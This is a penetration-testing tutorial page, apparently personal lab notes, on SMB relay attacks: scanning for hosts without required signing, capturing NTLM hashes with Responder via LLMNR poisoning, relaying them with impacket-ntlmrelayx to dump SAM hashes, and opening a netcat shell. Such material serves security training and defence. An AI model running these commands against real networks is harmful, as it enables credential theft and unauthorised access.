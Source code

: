 # SMB Relay

## What is it

A SMB relay attack is where an attacker captures a users NTLM hash and relays its to another machine on the network. Masquerading as the user and authenticating against SMB to gain shell or file access.

## Prerequisites

* SMB Signing disabled on target
* Must be on the local network
* User credentials must have remote login access for example; local admin to the target machine or member of the Domain Administrators group.

## SMB Signing

### What it does

SMB signing verifies the origin and authenticity of SMB packets. Effectively this stops MITM SMB relay attacks from happening. If this is enabled and required on a machine we will not be able to perform a SMB relay attack.

### Scanning for Signing disabled machines

Nmap can be used to check for potential SMB relay targets.&#x20;

```
sudo nmap --script=smb2-security-mode.nse -p 445 192.168.183.0/24 -Pn --open
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

As we can see, the two Windows 10 hosts have 'Message signing enabled but not required' meaning we can perform a SMB relay attack as signing is not required.

## Lab Scenario

In the lab scenario we have two machines

* WS01 (192.168.183.137)(Windows 10)
* WS02 (192.168.183.138)(Windows 10)

We will be capturing a hash on WS01 using LLMNR Poisoning and performing a SMB relay attack to gain shell on WS02.

As per the prerequisites the user account hash we will be capturing (MARVEL\fcastle) is a member of the local administrators group on the machine we will be relaying to WS02.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## How to perform the attack

### Dumping local SAM Database

Ideally we will use `Responder` for this attack which comes preinstalled on Kali Linux. Before we start `Responder` we need to make a small change to the configuration file.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

We need to turn off SMB and HTTP servers as we do not want to respond to these protocols as we will be capturing the hash and relaying it to a different tool called `ntlmrelayx.py` from Impacket.

Start Responder with the following command:

```
sudo responder -I eth0 -dwv
```

And then call ntlmrelayx.py from Impacket.

```
sudo impacket-ntlmrelayx -t 192.168.183.138 -smb2support
or
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

with both tools listening we can trigger an event using LLMNR.

Responder has caught the user 'fcastle' attempting to browse to a host that does not exists on the network. After DNS has failed to resolve the machine falls back to LLMNR which in this case we have caught the hash and relayed it over to ntlmrelayx.py.

ntlmrelayx.py then forwards the hash over to the machines specified with the `-t` switch which in this case is 192.168.183.138 or WS02.

As the user 'fcastle' is an administrator on WS02, `ntlmrelayx.py` has allowed us to dump the hashes in the SAM database.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We can then take these hashes and crack them or we can even attempt a pass-the-hash attack and attempt to gain a shell with the NTLMv2 hash on a different machine on the network.

### Interactive Shell

We can gain a shell with the same manner above except this time we specify the `-i` switch in ntlmrelayx.py.

```
sudo impacket-ntlmrelayx -t 192.168.183.138 -smb2support -i
or
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```

When we get a successful authentication message in ntlmrelayx.py we will need to open a netcat bind shell on the localhost and port specified in the ntlmrelayx.py output.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Start netcat with a localhost address and the port specified in the output above.

```
nc 127.0.0.1 <port>
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

## Resource

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay" %}
